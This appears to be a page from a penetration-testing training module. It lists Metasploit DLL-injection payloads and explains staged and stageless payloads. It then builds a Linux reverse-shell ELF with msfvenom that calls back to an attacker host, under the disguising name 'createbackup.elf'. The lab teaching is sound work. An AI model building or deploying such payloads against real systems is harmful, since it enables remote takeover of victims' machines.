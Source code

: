 ```shell
windows/dllinject/bind_tcp_uuid                     Inject a DLL via a reflective loader. Listen for a connection with UUID Support (Windows x86)
windows/dllinject/find_tag                          Inject a DLL via a reflective loader. Use an established connection
windows/dllinject/reverse_hop_http                  Inject a DLL via a reflective loader. Tunnel communication over an HTTP or HTTPS hop point. Note that you must first upload data/hop
                                                        /hop.php to the PHP server you wish to use as a hop.
windows/dllinject/reverse_http                      Inject a DLL via a reflective loader. Tunnel communication over HTTP (Windows wininet)
windows/dllinject/reverse_http_proxy_pstore         Inject a DLL via a reflective loader. Tunnel communication over HTTP
windows/dllinject/reverse_ipv6_tcp                  Inject a DLL via a reflective loader. Connect back to the attacker over IPv6
windows/dllinject/reverse_nonx_tcp                  Inject a DLL via a reflective loader. Connect back to the attacker (No NX)
windows/dllinject/reverse_ord_tcp                   Inject a DLL via a reflective loader. Connect back to the attacker
windows/dllinject/reverse_tcp                       Inject a DLL via a reflective loader. Connect back to the attacker
windows/dllinject/reverse_tcp_allports              Inject a DLL via a reflective loader. Try to connect back to the attacker, on all possible ports (1-65535, slowly)
windows/dllinject/reverse_tcp_dns                   Inject a DLL via a reflective loader. Connect back to the attacker
windows/dllinject/reverse_tcp_rc4                   Inject a DLL via a reflective loader. Connect back to the attacker
windows/dllinject/reverse_tcp_rc4_dns               Inject a DLL via a reflective loader. Connect back to the attacker
windows/dllinject/reverse_tcp_uuid                  Inject a DLL via a reflective loader. Connect back to the attacker with UUID Support
windows/dllinject/reverse_winhttp                   Inject a DLL via a reflective loader. Tunnel communication over HTTP (Windows winhttp)
```

We can see that some payloads are described as (`staged`) or (`stageless`). Let's cover the difference.

`Staged` payloads create a way for us to send over more components of our attack. We can think of it like we are "setting the stage" for something even more useful. When run using an exploit module in Metasploit, this payload will send a small `stage` that will be executed on the target and then call back to the `attack box` to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell.

`Stageless` payloads do not have a stage. Using an exploit module in Metasploit, this payload will be sent in its entirety across a network connection without a stage. This could benefit us in environments where we do not have access to much bandwidth and latency can interfere.

Now let's build a simple stageless payload with msfvenom and break down the command.

```shell
NolanCarougeHTB@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```
